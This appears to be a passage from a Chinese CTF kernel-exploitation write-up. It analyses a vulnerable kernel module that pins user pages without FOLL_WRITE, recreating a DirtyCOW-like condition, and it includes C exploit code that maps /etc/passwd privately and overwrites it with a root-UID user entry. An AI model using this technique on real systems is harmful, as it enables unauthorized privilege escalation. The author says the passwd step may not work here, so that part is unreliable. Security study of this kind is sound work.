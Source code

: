 ```cpp
				goto return;
			}
			page = pages[0];
			obj->type = 1;
			obj->pages[0] = page;
			obj->pages[1] = pages[1];
			obj->pages[2] = pages[2];
			obj->pages[3] = pages[3];
			up_read(v6 + 0x78);
			goto link;
			}
			unpin_user_pages(pages, v19);
		}
		ret = -22LL;
		up_read(v6 + 0x78);
		kfree(obj);
		goto return;
    }
```

1. 检查用户指定的地址对应的 vma 条目是否有读写权限
2. 调用 pin_user_pages_fast() 获得地址对应的物理页
3. 调用 vmap() 映射物理页到内核空间，获得一个指向其的虚拟地址
4. 记录下虚拟地址供之后的读写操作使用

如果你已经知道了 dirtycow 的原理，那你可以直接看出来这里相当于直接给了 dirtycow 满足竞争条件后的情形：未指定 FOLL_WRITE 作为 gup_flags 调用 pin_user_pages_fast()，并在之后写入获得的页面。这将会给我们任意可读文件写入的能力，只需要通过以下的步骤就可以修改 /etc/passwd 的内容：

```cpp
    int passwd_fd = open("/etc/passwd", O_RDONLY);
    void *mbuf = mmap((void*)0, 0x1000, PROT_READ|PROT_WRITE, MAP_PRIVATE, passwd_fd, 0);
    if (mbuf < 0){
        error("[-] mmap file error");
    }
    size_t *tbuf = mmap(mbuf+0x1000, 0x3000, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS|MAP_FIXED, 0, 0);
    if (tbuf != mbuf+0x1000){
        error("[-] mmap anonymous error!");
    }
    ko_add_vmap(1, (size_t) mbuf);
    strcpy((char *)buf, "root:x:0:0:root:/root:/bin/sh\nctf:x:0:0:Linux User,,,:/home/ctf:/bin/sh");      
	ko_upload(1);
```

如果你并没有仔细看过 dirtycow 的分析，那你可能会好奇：
* 为什么以 O_RDONLY 打开的 fd，可以通过 PROT_WRITE 来调用 mmap 映射？原理详见 MAP_PRIVATE 相关知识，简要概述就是 MAP_PRIVATE 指定这个映射是私有的，虽然你对原文件只有读权限，但是如果你非得想写，内核也可以给你拷贝一个副本让你写着玩。注意 vma 的属性，即 ko 中判断读写的属性，是由 mmap 指定的属性决定的，所以就可以通过检查
* 为什么没有指定 FOLL_WRITE 获得的页也可以写入？because kernel is god，是否可写是通过 pte 的属性来控制的，内核和用户不走同一个 pte
* 为什么这次的写入不是写入到副本？可能需要了解 cow 及处理流程，简单来说由于调用 ko 的 0x11 功能之前没有对映射出的页面进行写操作，所以其指向的是原文件对应的物理内存，而具体的 cow 操作是在 pin(get)_user_pages 里做的，并且依赖于参数中 gup_flags 被设置 FOLL_WRITE，所以这次调用 pin_user_pages 结束的时候都还没有做拷贝的操作，所以就是获得的原文件物理页。
  
| 利用的方法和以前的 kernel pwn 不太一样，并且 dirtycow 中修改 /etc/passwd 的操作在这里似乎也行不太通，暂时等等别的队伍的 wp 做个总结再来补充